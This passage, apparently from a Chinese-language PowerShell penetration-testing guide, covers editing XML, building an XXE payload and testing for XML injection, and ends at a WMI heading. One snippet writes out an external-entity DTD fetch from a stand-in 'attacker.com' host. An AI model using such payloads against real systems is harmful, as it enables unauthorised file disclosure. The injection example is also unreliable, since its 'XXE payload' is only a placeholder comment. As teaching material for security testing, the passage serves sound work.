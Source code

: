在这个示例中，我们像之前一样读取和解析 XML 文件。然后，我们使用 `Where-Object` cmdlet 根据 name 属性过滤设置节点。一旦我们找到名称为 `theme` 的设置，我们将其值属性修改为 `light`。最后，我们使用 `Save` 方法将更新后的 XML 保存回文件。

## 构建 XML 负载

在渗透测试中，常常需要构建自定义 XML 负载来测试基于 XML 的漏洞，例如 **XML 外部实体**(**XXE**) 注入。让我们为测试一个应用程序的 XXE 漏洞构建一个 XML 负载：

```
 $payload = @"
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;
]>
<root>
    <data>Confidential information</data>
</root>
"@
# Save the payload to a file
$payloadFilePath = "C:\MyData\payload.xml"
$payload | Out-File -FilePath $payloadFilePath
```

在这个示例中，我们定义了一个包含外部实体声明的 XML 负载，该声明从攻击者的服务器获取外部的 **文档类型定义**(**DTD**) 文件。这是一个常见的 XXE 负载。然后，我们将该负载保存到一个文件中，以便用于测试 XXE 漏洞。

## XML 注入测试

渗透测试人员通常会测试 Web 应用程序的 XML 注入漏洞。PowerShell 可以用来构建和注入恶意 XML 负载到输入字段中，以评估应用程序的 XML 解析和验证机制。让我们构建一个恶意 XML 负载来测试 Web 应用程序中的 XML 注入漏洞：

```
 $maliciousPayload = @"
<root>
    <data>
        <name>John Smith</name>
        <age>30</age>
        <!-- XXE injection payload goes here -->
    </data>
</root>"@
$injectionPoint = "http://snowcapcyber.com/api/data?xml=" + [System.Web.HttpUtility]::UrlEncode($maliciousPayload)
```

在这个示例中，我们创建一个包含 XXE 注入负载的恶意 XML 负载，负载被嵌入在数据元素中。然后，我们将这个负载注入到 Web 应用程序的输入字段（由 `$injectionPoint` 表示）中，以测试应用程序是否容易受到 XXE 攻击。

# COM、WMI 和 .NET 在 PowerShell 中

渗透测试是网络安全中的一项关键活动，它涉及模拟现实世界中的攻击，以识别系统或网络中的漏洞和弱点。PowerShell 是一种多功能的脚本语言，原生支持 Windows 环境，因其灵活性、广泛的自动化功能以及与多种技术（如 COM、WMI 和 .NET）的互动能力，成为渗透测试人员的宝贵工具。在本节中，我们将探讨如何利用 PowerShell 与 COM 对象、WMI 查询和 .NET 程序集进行交互，并在渗透测试中加以应用。我们将涵盖诸如访问系统信息、查询 WMI 数据、与 COM 组件交互以及使用 .NET 程序集执行特定任务等场景。

## 使用 WMI 进行系统信息收集
